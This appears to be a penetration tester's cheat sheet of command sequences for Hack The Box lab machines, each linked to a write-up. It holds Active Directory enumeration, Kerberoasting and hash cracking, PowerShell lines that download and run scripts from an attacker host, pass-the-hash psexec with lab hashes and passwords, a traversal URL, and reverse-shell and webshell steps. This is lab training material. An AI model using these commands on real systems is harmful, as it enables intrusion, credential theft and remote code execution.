 # Win-Conceal
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell - PowerShell
JuicyPotato
```


# Win-Forest
https://0xdf.gitlab.io/2020/03/21/htb-forest.html
```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
enum4linux 10.10.10.161
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
john hashsvc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
iex(new-object net.webclient).downloadstring("http://10.10.14.13/SharpHound.ps1")
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
./smbserver.py share . -smb2support -username df -password df
iex(new-object net.webclient).downloadstring("http://10.10.14.13/PowerView.ps1")
./secretsdump.py svc-alfresco:s3rvice@10.10.10.161
./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```


# Win-Active
https://0xdf.gitlab.io/2018/12/08/htb-active.html
```
enum4linux 10.10.10.100
smbclient \\\\10.10.10.100\\Replication
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
./GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 –request
john hash_admin -w=/usr/share/wordlists/rockyou.txt
./wmiexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
./psexec.py Administrator:Ticketmaster1968@10.10.10.100
```


# Win-Search
https://0xdf.gitlab.io/2022/04/30/htb-search.html
```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
Read GMSA Password
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```


# Win-StreamIO
```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```





# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```


# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```


# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum.sh
PrivEsc - systemctl
```


# Lin-Haircut
```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```

# Lin-Backdoor
https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html
```
http://10.10.11.125/wp-content/plugins/
WordPress Plugin eBook Download 1.1 - Directory Traversal
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/812/cmdline
GNU gdbserver 9.2 - Remote Command Execution (RCE)
ps aux
screen -x root/root
```
